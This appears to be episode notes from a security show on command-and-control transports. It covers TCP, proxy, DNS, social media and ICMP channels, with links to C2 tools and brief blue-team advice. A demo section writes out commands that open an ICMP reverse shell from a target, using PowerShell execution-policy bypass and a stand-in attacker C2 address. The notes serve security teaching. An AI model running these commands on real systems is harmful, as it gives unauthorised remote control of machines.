





Command & Control 101: Transports - Tradecraft Security Weekly #9

LINKS: 
Dnscat - https://github.com/iagox86/dnscat2 
Gcat - https://github.com/byt3bl33d3r/gcat
PowerShellICMP - https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1
icmpsh - https://github.com/inquisb/icmpsh 
Week of PowerShell Shells - http://www.labofapenetrationtester.co...

# Command & Control
- Infrastructure used to carry out remote communication with hosts
- A number of different transport mechanisms can be utilized
- Some tend to be more stealthy than others
- Many network security appliances are trying in various ways to detect these
- But....bypasses exist and custom tools get right by
# C2 Over TCP

# C2 Through A Web Proxy
- most common

# C2 Over DNS
- most sneaky

# C2 Over WebApps / Social Media

# C2 Over ICMP
- not well known


# PowerShellICMP DEMO
On Attackbox disable ICMP to other stuff
```
# sysctl -w net.ipv4.icmp_echo_ignore_all=1
# python icmpsh_my.py attackip victimip
```
On Target
```
C:\ powershell.exe -exec bypass
PS> Import-Module .\Invoke-PowerShellIcmp.ps1
PS> Invoke-PowerShellIcmp myattackc2ip
```
# For the Blue Team
- Lock down egress filtering
- Don't blindly trust IPS rules for specific tools; Test them.
- Know that there are still ways to get around categorization (see Episode #4)
- Focus on client-side protections to help prevent payloads from launching in the first place.